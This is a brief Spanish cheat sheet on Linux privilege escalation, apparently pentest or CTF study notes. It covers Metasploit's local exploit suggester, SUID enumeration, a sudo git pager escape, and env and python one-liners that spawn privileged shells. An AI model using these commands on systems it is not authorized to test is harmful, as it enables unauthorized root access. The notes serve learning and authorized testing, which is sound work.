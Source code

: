 
Este escalamiento es únicamente para sistemas operativos Linux

# Metasploit

SI queremos conocer cual puede ser una posible escalada podemos utilizar el siguiente módulo:

```
use post/multi/recon/local_exploit_suggester

set session 1

run
```

Una vez corriendo te mostrará cuales son los posibles módulos de metasploit que pueden servir para poder escalar los privilegios.

-------
# SUID

Si queremos ver todos los SUID a los cuales tenemos permiso:

```
find / -perm -4000 2>/dev/null #Find all SUID binaries
```

Página para ver que se puede realizar con ello

https://gtfobins.github.io/

------

# Permisos

Realizar el siguiente comando

```
sudo -l
```

Si se encuentran permisos que se puedan aplicar con sudo aplicar la siguiente extensión al sudo (sudo -u USER): 

```
sudo -u admin git -p help config
```

------
## ENV

Para escalar privilegios sin Sudo:

```
./usr/bin/env /bin/sh -p
```

## Python

Para escalar privilegios sin sudo:

```
/usr/bin/python3.10 -c  'import os; os.execl("/bin/sh","sh","-p")'
```
